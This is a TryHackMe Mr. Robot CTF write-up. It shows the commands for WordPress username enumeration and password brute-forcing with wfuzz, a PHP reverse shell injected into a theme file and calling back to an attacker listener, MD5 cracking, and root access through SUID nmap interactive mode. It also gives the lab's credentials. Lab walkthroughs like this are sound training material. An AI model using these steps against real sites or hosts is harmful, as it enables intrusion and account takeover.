


# TryHackMe — Mr. Robot CTF Write-Up

> **Room:** [Mr. Robot CTF](https://tryhackme.com/room/mrrobot)
> **Difficulty:** Medium
> **Author:** *SubZer030*
> **Date:** 2026-10-28
> **Tags:** `wordpress` `hydra` `wfuzz` `reverse-shell` `nmap-suid` `privesc`

---

## Table of Contents

1. [Overview](#overview)
2. [Reconnaissance](#reconnaissance)
3. [Web Enumeration](#web-enumeration)
4. [Key 1](#key-1)
5. [Credential Discovery](#credential-discovery)
6. [WordPress Exploitation — Reverse Shell](#wordpress-exploitation--reverse-shell)
7. [Key 2 — Privilege Escalation to Robot](#key-2--privilege-escalation-to-robot)
8. [Key 3 — Privilege Escalation to Root](#key-3--privilege-escalation-to-root)
9. [Summary & Lessons Learned](#summary--lessons-learned)

---

## Overview

This room is inspired by the TV show **Mr. Robot**. The objective is to find **3 hidden keys** on the machine. It covers a realistic attack chain:

```
Web Recon → WordPress Brute-Force → Reverse Shell → Hash Cracking → SUID Abuse → Root
```

---

## Reconnaissance

### Port Scan with RustScan + Nmap

```bash
rustscan -a [IP] -- -sC -sV
```


**Open Ports:**

| Port | Service | Version |
|------|---------|---------|
| 22   | SSH     | OpenSSH 8.2p1 Ubuntu |
| 80   | HTTP    | Apache httpd |
| 443  | HTTPS   | Apache httpd (self-signed cert) |

Key observations:
- SSH is open but no credentials yet.
- HTTP/HTTPS are running Apache — likely a web application to exploit.
- The TLS certificate is self-signed and issued to `www.example.com` (default/placeholder).

---

## Web Enumeration

### Visiting the Website

Navigating to `http://[IP]` reveals an interactive Mr. Robot-themed terminal interface — a static page with no immediate attack surface.

### robots.txt

```
http://[IP]/robots.txt
```

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Two files are disclosed immediately:
- `fsocity.dic` — a wordlist
- `key-1-of-3.txt` — the first key

---

## Key 1

```
http://[IP]/key-1-of-3.txt
```

> 🔑 **Key 1:** `[REDACTED]` 

---

## Credential Discovery

### Downloading and Cleaning the Wordlist

```bash
curl -O http://[IP]/fsocity.dic
wc -l fsocity.dic
# 858160 fsocity.dic
```

The wordlist contains **858,160** entries with many duplicates. De-duplicating it dramatically speeds up brute-forcing:

```bash
sort -u fsocity.dic -o fsocity_unique.dic
wc -l fsocity_unique.dic
# 11451 fsocity_unique.dic
```

**858,160 → 11,451 entries** — a 98.6% reduction.

### Username Enumeration

WordPress returns different error messages depending on whether the username exists:
- Invalid username → `"Invalid username"`
- Valid username, wrong password → `"The password you entered for the username ... is incorrect"`

We exploit this with `wfuzz`, hiding responses that contain the "Invalid username" string:

```bash
wfuzz -c -z file,fsocity_unique.dic \
  --hs "Invalid username" \
  -d "log=FUZZ&pwd=test" \
  http://[IP]/wp-login.php
```

**Result:**

```
000005474:   200   58 L   194 W   3659 Ch   "Elliot"
000005473:   200   58 L   194 W   3659 Ch   "elliot"
000005475:   200   58 L   194 W   3659 Ch   "ELLIOT"
```

> **Username found:** `elliot`

### Password Brute-Force

First, confirm the exact failure string for a valid username with a wrong password:

```bash
curl -s -X POST http://[IP]/wp-login.php \
  -d "log=elliot&pwd=fakepass" | grep -i "password\|incorrect\|wrong\|error"
```

Output confirms: `"The password you entered for the username elliot is incorrect"`

Now brute-force the password:

```bash
wfuzz -c -z file,fsocity_unique.dic \
  --hs "The password you entered for the username" \
  -d "log=elliot&pwd=FUZZ" \
  http://[IP]/wp-login.php
```

**Result:**

```
000005627:   302   0 L   0 W   0 Ch   "ER28-0652"
```

A `302` redirect means a **successful login**.

> **Credentials found:** `elliot : ER28-0652`

---

## WordPress Exploitation — Reverse Shell

### Injecting a PHP Reverse Shell

With admin access to WordPress, navigate to:

**Appearance → Theme Editor → 404 Template (404.php)**

Replace the file content with a [PHP reverse shell](https://github.com/pentestmonkey/pentestmonkey-php-reverse-shell) and configure:

```php
$ip = '1.1.1.1'; // tun0 IP
$port = 9999;
```

> ⚠️ Common mistake: avoid trailing slashes in the IP (`192.168.x.x/` will break the connection).

Click **Update File** to save.

### Starting the Listener

```bash
nc -lvnp 9999
```

### Triggering the Shell

WordPress does not serve theme PHP files directly via `/404.php`. Instead, access the file through its full theme path:

```
http://[IP]/wp-content/themes/twentyfifteen/404.php
```

A reverse shell connection is established as `daemon`.

### Upgrading the Shell (optional but recommended)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

## Key 2 — Privilege Escalation to Robot

### Finding Key 2

```bash
ls /home/robot
# key-2-of-3.txt  password.raw-md5
```

Key 2 is only readable by the `robot` user. However, the `password.raw-md5` file is world-readable:

```bash
cat /home/robot/password.raw-md5
# robot:c3fcd3d76192e4007dfb496cca67e13b
```

### Cracking the MD5 Hash

Using an online tool such as [CrackStation](https://crackstation.net) or a local tool:

```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" | hashcat -m 0 - /usr/share/wordlists/rockyou.txt
```



> **Password cracked:** `abcdefghijklmnopqrstuvwxyz`

### Switching to Robot

```bash
su robot
# Password: abcdefghijklmnopqrstuvwxyz

cat /home/robot/key-2-of-3.txt
```

> 🔑 **Key 2:** `[REDACTED]`

---

## Key 3 — Privilege Escalation to Root

### SUID Binary Enumeration

```bash
find / -perm -u=s -type f 2>/dev/null
```




Notable results:

```
/usr/local/bin/nmap
/usr/bin/sudo
/usr/bin/pkexec
```

`nmap` with a SUID bit is a classic privilege escalation vector. Older versions of nmap (2.02–5.21) include an `--interactive` mode that drops into a shell.

### Checking Nmap Version

```bash
nmap --version
# nmap version 3.81
```

Version **3.81** — vulnerable.

### Escalating to Root via Nmap Interactive Mode

```bash
nmap --interactive
nmap> !sh
```

This spawns a shell running as **root** (inherited from the SUID bit).

```bash
whoami
# root
```

### Retrieving Key 3

```bash
cat /root/key-3-of-3.txt
```

> 🔑 **Key 3:** `[REDACTED]`

---

## Summary & Lessons Learned

### Attack Chain

```
robots.txt disclosure
       │
       ▼
fsocity.dic wordlist (de-duplicated: 858k → 11k)
       │
       ▼
WordPress username enumeration (wfuzz + error message difference)
  → elliot
       │
       ▼
WordPress password brute-force (wfuzz)
  → ER28-0652
       │
       ▼
WordPress Theme Editor → PHP Reverse Shell (404.php)
  → shell as daemon
       │
       ▼
/home/robot/password.raw-md5 → MD5 cracked
  → su robot
       │
       ▼
SUID nmap --interactive → !sh
  → root
```

### Key Takeaways

| # | Lesson |
|---|--------|
| 1 | Always check `robots.txt` — it can expose sensitive files |
| 2 | Wordlist de-duplication dramatically reduces brute-force time |
| 3 | WordPress reveals whether a username is valid through different error messages |
| 4 | Theme Editor is a powerful RCE vector when you have WordPress admin access |
| 5 | Directly accessing `404.php` fails due to WordPress routing — use the full theme path or trigger a real 404 |
| 6 | Plaintext/weak hashes stored on disk are an easy lateral movement vector |
| 7 | SUID binaries like old `nmap` versions are a trivial privesc path — always audit them |

### Tools Used

| Tool | Purpose |
|------|---------|
| `rustscan` + `nmap` | Port scanning and service enumeration |
| `wfuzz` | Username enumeration and password brute-force |
| `curl` | Manual HTTP testing and failure string identification |
| `pentestmonkey PHP reverse shell` | Initial foothold |
| `netcat` | Reverse shell listener |
| `hashcat` / CrackStation | MD5 hash cracking |
| `nmap --interactive` | SUID privilege escalation |

---

*Write-up by SubZer030 — TryHackMe Mr. Robot CTF*